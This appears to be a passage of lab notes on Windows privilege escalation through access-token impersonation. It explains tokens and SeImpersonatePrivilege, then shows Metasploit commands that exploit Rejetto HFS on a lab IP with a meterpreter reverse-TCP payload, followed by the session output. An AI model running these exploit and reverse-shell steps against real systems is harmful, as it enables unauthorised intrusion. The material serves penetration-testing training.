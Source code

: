 Whenever you log in to Windows, the winlogon.exe process will generate a Windows access token for you. And that Windows access token will contain your user account. So your user identify, as well as the privileges associated with that particular user account. That token is then going to be attached to the userinit.exe process, which is used to start up processes or programs for a particular user. So all child processes started by the user will then inherit a copy of the access token from their creator and will run under the privileges of the same access token. So that way, the processes that are running under the privileges of a specific user can be identified, and they're kept separate. So it's really a vital part of the Windows operating system and a core element of the authentication process on Windows. 

In order to elevate our privileges through token impersonation, we need to have the following privileges assigned to our account. Further more, we also need to have impersonation or delegation tokens available on the system that we can use to impersonate.

We primarily need the `SeImpersonatePrivilege`. So the `SeImpersonatePrivilege` will allow us to impersonate the access token of another user account.

Target IP Address: 10.2.16.112

```
service postgresql start && msfconsole -q
workspace -a Impersonate
workspace
setg RHOSTS 10.2.16.112
db_nmap -sV 10.2.16.112
```

```
search rejetto
use exploit/windows/http/rejetto_hfs_exec
set payload windows/x64/meterpreter/reverse_tcp
show options
exploit
```

Perform some local enumeration.

```
meterpreter > sysinfo
Meterpreter : x64/windows
```

Enumerate our current privileges or the user account that we have access to.

```
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
```

You need to make the distinction between `NT AUTHORITY\SYSTEM` and `NT AUTHORITY\LOCAL SERVICE`. `NT AUTHORITY\SYSTEM` means that we have system privileges or the highest privileges associated with a user account on Windows. And the `NT AUTHORITY\LOCAL SERVICE` means that we have the privileges associated with a local service account. 

The reason we have access to a local service account is because we exploited a service, and in this case, the service that we exploited was the Rejetto HFS or Http File Server service. So we get the privileges associated with that service.
